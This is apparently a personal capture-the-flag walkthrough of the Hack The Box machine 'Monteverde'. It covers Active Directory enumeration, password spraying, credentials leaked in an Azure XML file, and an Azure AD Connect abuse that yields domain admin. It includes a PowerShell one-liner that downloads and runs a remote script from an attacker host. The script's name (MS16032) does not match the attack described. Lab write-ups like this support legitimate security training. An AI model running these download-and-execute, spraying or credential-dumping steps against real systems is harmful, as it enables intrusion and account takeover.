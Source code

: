 # HTB Monteverde

Basic nmap scan:
```
Nmap scan report for 10.10.10.172
Host is up (0.059s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 141.82 seconds
          Raw packets sent: 196673 (8.654MB) | Rcvd: 430 (22.312KB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.172
Host is up (0.11s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-30 22:53:33Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-03-30T22:53:49
|_  start_date: N/A
TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1  71.54 ms  10.10.16.1
2  132.97 ms 10.10.10.172
NSE: Script Post-scanning.
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.09 seconds
          Raw packets sent: 2080 (95.204KB) | Rcvd: 52 (2.872KB)
```

I ran an LDAPsearch query and obtained a ton of information.:

![[./_resources/HTB_Monteverde.resources/ldapsearch_results.txt]]

I also obtained the list of users here with CME:
```
└─$ crackmapexec smb 10.10.10.172 --users                                           
SMB        10.10.10.172    445    MONTEVERDE      [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB        10.10.10.172    445    MONTEVERDE      [-] Error enumerating domain users using dc ip 10.10.10.172: NTLM needs domain\username and a password
SMB        10.10.10.172    445    MONTEVERDE      [*] Trying with SAMRPC protocol
SMB        10.10.10.172    445    MONTEVERDE      [+] Enumerated domain user(s)
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\AAD_987d7f2f57d2              Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\mhope                         
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\SABatchJobs                   
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-ata                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-bexec                     
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-netapp                     
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\dgalanos                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\roleary                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\smorgan
```

I was able to login with a null session with RPCclient and query information.:
![[./_resources/HTB_Monteverde.resources/image.png]]

I got stuck and had to look for a nudge by checking a WT. However, I realized, I needed to try password spraying. I can use CME and try the username as the password for each user.

In performing a dictionary attack on the user SABatchJobs, I found the username is the password.:
![[./_resources/HTB_Monteverde.resources/image.1.png]]
Credentials:
```
Uname: SABatchJobs
Passwd: SABatchJobs
```

Now I can access the SMB shares as shown below:
![[./_resources/HTB_Monteverde.resources/image.2.png]]
I did not find anything in the azure\_uploads, IPC$ or any other directories except for one. In checking the users$ directory, I found that the mhope user had an azure.xml file which I downloaded with the get command. Upon inspecting it, I found another password.:
```
─$ cat azure.xml 
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
Since this was under Mike Hope's directory, I will note him as the user to try in this case.
```
Uname: mhope
Passd: 4n0therD4y@n0th3r$
```

I was now able to winrm into the machine with the above credentials with evil-winrm.:
![[./_resources/HTB_Monteverde.resources/image.3.png]]

I found the user.txt hash on Mike's Desktop directory.:
![[./_resources/HTB_Monteverde.resources/image.4.png]]

Next, I found the following file which shows an email address with null credentials.:
![[./_resources/HTB_Monteverde.resources/image.5.png]]

```
Uname: john@a67632354763outlook.onmicrosoft.com
Passwd: {NULL}
```

I realized this post has a good PoC that works well with abusing Azure AD in this instance specifically the Azure Connect.: <https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c>

I had the modify the code so reflect the walkthrough version by 0xdf by modifying the first line.:
![[./_resources/HTB_Monteverde.resources/image.6.png]]

After uploading the file via a python server on my attacker machine I was also able to execute the script immediately using the awesome powershell one liner.:
```
powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://[attacker IP]:[web server port]/Invoke-MS16032.ps1')
```

![[./_resources/HTB_Monteverde.resources/image.7.png]]
Credentials:
```
Domain: MEGABANK.LOCAL
Uname: administrator 
Passwd: d0m@in4dminyeah!
```

I was then finally able to obtain Administrator privileges by using the above credentials in a new evil-winrm shell.:
![[./_resources/HTB_Monteverde.resources/image.8.png]]

root.txt hash obtained!:
![[./_resources/HTB_Monteverde.resources/image.9.png]]

**###ROOTED!!!###**
